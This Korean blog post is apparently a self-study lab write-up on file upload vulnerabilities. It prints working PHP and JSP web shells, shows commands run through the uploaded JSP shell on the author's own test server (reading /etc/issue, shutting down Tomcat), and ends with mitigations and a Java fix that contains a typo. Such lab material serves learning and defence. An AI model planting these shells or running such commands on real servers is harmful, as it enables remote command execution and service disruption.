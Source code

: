 ```yaml
---
title: "File Upload 취약점 실습"
excerpt: "File Upload 에 대하여 알아보고 직접 웹 쉘을 업로드 해보자."
tags:
    - File Upload
    - jsp
    - servlet
last_modified_at: 2023-05-31T09:13:00-05:00
---
```

## File Upload 취약점이란?
- 파일 업로드 기능의 취약점을 이용하여 악의적인 파일(웹쉘)을 업로드한다. 이러한 업로드를 통해 서버의 시스템 권환을 장악할 수 있다.
- 공격자가 악성 파일을 업로드하고 공격자가 url 링크를 통해 공격자가 올린 파일에 접속이 가능할 때 발생하는 공격법이다.
- 웹 쉘 파일을 서버로 업로드하여 공격자는 시스템 내부의 명령을 수행할 수 있다.


## 취약점 발생 위치
- 파일 업로드가 가능한 곳
- 게시글<br>![Pasted image 20230531170442](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/4b77c359-86b1-455e-a7c2-015d229ab7bb)

## 웹 쉘
- 웹 서비스를 구동하기 위한 웹서버 환경에서 지원 가능한 웹 애플리케이션 언어를 기반으로 동작되는 파일을 의미한다.
- 외부망에 있는 공격자가 시스템 내부 명령을 수행을 하기 위한 목적으로 사용된다.

### PHP 스크립트 일 때

```php
<?php echo system($_GET['cmd']); ?>
```

### JSP 스크립트 일 때

```jsp
<%@ page import="java.io.*" %>
<%
try {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = p.getInputStream();
    int c;
    while((c=in.read())!=-1){
        out.print((char)c);
    }
    in.close();
    try {
        p.waitFor();
    }catch(Exception e){
        out.println(e.getMessage());
    }
}catch(Exception e){
    out.println(e.getMessage());
}
%>
```

## 업로드 취약점 실습
- 직접 만든 웹 페이지의 업로드 부분의 취약점을 이용하여 실습하였다.

### 실습 서버 환경
- nginx + tomcat ( WAS )

### 파일 업로드 위치 확인
- 게시글<br>![Pasted image 20230531170549](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/20be9578-36d5-4089-b306-a7b0837fecda)<br>![Pasted image 20230531170615](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/923dc625-df69-48c5-86fb-0ae5c29661ec)

### 웹 쉘 업로드 하기.
1. 웹 쉘 JSP 스크립트 작성하기.<br>![Pasted image 20230531190315](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/8c98cc8e-f4ee-4620-ab09-6eb6f8d91cb9)
2. 파일 업로드를 위한 게시글 작성하기 및 저장하기.<br>![Pasted image 20230531175551](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/47f35ad0-7052-4aa5-b627-51f19181ab83)<br>![Pasted image 20230531175622](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/fcffc78a-c412-4b2b-b878-0089e3e2fec8)

3. 게시글에서 파일이 잘 다운되는 것을 확인할 수 있다. 다운로드 요청 링크를 보면 get 요청의 파라미터로 파일이름과 폴더이름이 들어있는 것을 확인할 수 있다.<br>![Pasted image 20230531175720](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/378b3221-c1e5-416f-ae9e-96be006e51e8)
4. URL을 통해 업로드한 test.jsp에 접속해 보자.<br>![Pasted image 20230531190443](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/49deb562-3906-41a7-8b8f-7fdde07f1cfd)<br>`http://221.27.0.6/1685527431308_110/test.jsp`
5. 아무런 파라미터를 안주면 null 오류가 발생한다.<br>![Pasted image 20230531190604](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/31367fa8-0ac0-4960-aff7-24d322e95e75)

### 명령어 입력하기
1. `http://사이트 주소/test.jsp?cmd=pwd` 를 통해 파일 목록을 나열할 수 있다.<br>![Pasted image 20230531201540](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/c905b0f8-649d-4e2b-9b10-1a951a686513)
2. 서버 버전확인하기.<br>`http://사이트 주소/test.jsp?cmd=cat%20/etc/issue`<br>![Pasted image 20230531193854](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/ed2a602a-008e-4a09-b54c-5cbcfce1b6d4)
3. 명령을 통해 웹 서버를 종료시켜 보자. 먼저 apache 서버인지 nginx 서버인지 확인하기.<br>`http://사이트 주소?cmd=service%20nginx%20status`<br>![Pasted image 20230531203111](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/0cbadaee-ff57-4261-b49f-9fdf1c7518e3)
4. nginx 서버인 것을 확인하였다. `service nginx stop` 명령을 통해 nginx 서버를 종료시켜 보자. nginx 서버를 멈추기 위해서는 관리자 권한이 필요하다. 따라서 nginx 서버를 종료하는 것은 어려워 보인다.
5. 톰캣 서버를 종료시켜보자. 먼저 `apache-tomcat-10.1.9/bin` 폴더에 `shutdown` 파일이 있다. 이 파일을 실행 시키면 톰캣 서버는 종료된다.<br>![Pasted image 20230531203806](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/0ee94f88-316b-43c4-997d-175efca63c51)<br>`http://사이트 주소?cmd=./shutdown.sh`
6. 톰캣 서버가 종료되었다는 것을 확인할 수 있다.<br>![Pasted image 20230531203923](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/d8f5b5ba-a42f-4acc-bc2d-92b2714c7557)


## File Upload 취약점 대응방안
- 파일 업로드 저장위치를 물리적으로 분리시켜주면 된다. 즉 웹 페이지가 저장되어 있는 서버와 파일이 저장되는 서버를 분리시켜주면 된다.
- 파일 저장 위치를 웹 링크를 통해 접속할 수 없는 위치로 설정하여야 한다.
- 웹 서버의 계정의 접근 권한을 제한하는 방법도 있다.

## 웹 페이지 파일 업로드 취약점 없애기
- 파일 저장 위치를 웹 URL을 통해 접속할 수 없는 장소로 설정해 주었다. 이제 웹 URL로 접속할 수 없다.

```java
private String getFilePath(ServletRequest request,String folderName){
	// 업로드 폴더 존재 확인 업로드 폴더 존재안하면 만들어주기.
	// 링크를 통해 접근할 수 없는 위치에 만들어주기.
	var path = new File(request.getServletContext().getRealPath("")).getParentFile().getParent()+File.separatorChar+"upload_folder";
	var folder = new File(path);
	if(!folder.exists() || !folder.isDirectory()){
		folder.mkdir(); // 업로드 폴더 만들기.
	}
	path = path + File.separsatorChar + folderName;
	return path;
}
```


- 웹 페이지에서 폴더 이름을 예측할 수 있는 가능성을 없애주었고, 게시글 번호 파라미터를 추가해주었다.<br>![Pasted image 20230531190443](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/f378cdf7-9dea-4946-b584-1c4e3755fa9d)<br>![Pasted image 20230531212208](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/8b522229-9ed6-4601-95be-cd3675ba6a74)

## 후기
- 직접 웹 쉘을 작성하고 웹 서버에 업로드하여 외부에서 서버 명령어를 실행시켜 보았다. 처음에는 웹 쉘이 무엇인지 몰랐고 찾아보아도 이해가 잘안되었는데 직접 실습을 해보니 웹 쉘이 어떤것인지 감이 잡혔다. 서버에 접속하여 원하는 명령을 마음데로 실행 시켜보니 파일 업로드 취약점이 서버에 얼마나 위험한지 알 수 있었다.

## 참고 사이트
- [윈도우 cmd 명령어 실행 : Java로 실행파일 실행시키기 응용 (tistory.com)](https://haenny.tistory.com/266)
- [내가 만든 홈페이지 해킹하기(4) (velog.io)](https://velog.io/@jsw4215/%EB%82%B4%EA%B0%80-%EB%A7%8C%EB%93%A0-%ED%99%88%ED%8E%98%EC%9D%B4%EC%A7%80-%ED%95%B4%ED%82%B9%ED%95%98%EA%B8%B04)
- [File Upload 공격 : 네이버 블로그 (naver.com)](https://m.blog.naver.com/nahejae533/220997626311)
